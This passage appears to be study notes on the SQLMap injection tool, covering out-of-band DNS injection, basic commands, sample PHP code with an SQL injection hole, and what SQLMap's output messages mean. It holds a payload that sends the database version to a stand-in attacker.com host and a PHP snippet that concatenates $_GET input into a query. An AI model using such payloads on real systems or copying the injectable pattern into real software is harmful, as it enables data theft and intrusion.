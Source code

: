 Additionally supported Out-of-band injection:
	
	- LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\README.txt'))
	- Most advanced and only used where all other types are unsupported or are too slow.
	- Runs on the DNS server. 
	- Forces the server to request non-existent subdomains 
	- SQLMap collects the errors and the non-existent subdomain part to form the SQL response.


## Basic usage

```sqlmap -h``` and ```sqlmap -hh``` for help options

```sqlmap -u <url> --batch (this option skips user iput selecting the default option)```

Example of vulnerable code

```
$link = mysqli_connect($host, $username, $password, $database, 3306);
$sql = "SELECT * FROM users WHERE id = " . $_GET["id"] . " LIMIT 0, 1";
$result = mysqli_query($link, $query);
if (!$result)
    die("<b>SQL error:</b> ". mysqli_error($link) . "<br>\n");
```

In the $sql statement the ```$_GET[]``` can be used to put an sql statment 

## Output 

URL content is stable.
	- Means no major changes between responses that are the same (i.e requesting the web page twice).
	- Important as in the event of stable responses it is easier to spot difference caused by sqli.
	- SQLMap can remove noise caused by instability. 

Parameter '' appears to be dynamic.
	- Parameter maybe linked to database if it changes depending on value

Parameter '' might be injectable.
	- Possible SQLi

Parameter '' might be vulnerable to XSS attacks.
	- SQLMap sometimes detects possible XSS vulnerabilities.

back-end DBMS is ''.
	- Type of database

level/risks
	- If it is clear what the database is it is possible to extend the tests for that DBMS beyond standard tests.
	- If not done then only the top payloads would be tested.

Reflective Values found
	- Warning that parts of the used payloads are found in the response.
	- Problem for automation but SQLMap can filter them out.

Parameter appears to be injectable.
	- Possible SQLi but maybe false positive 
	- if with --string="luther" is found then SQLMap has better chance of disguishing false positive.

Time-based comparison statistical model
	- SQLMap uses a statistical model for the recognition of regular and (deliberately) delayed target responses. 
```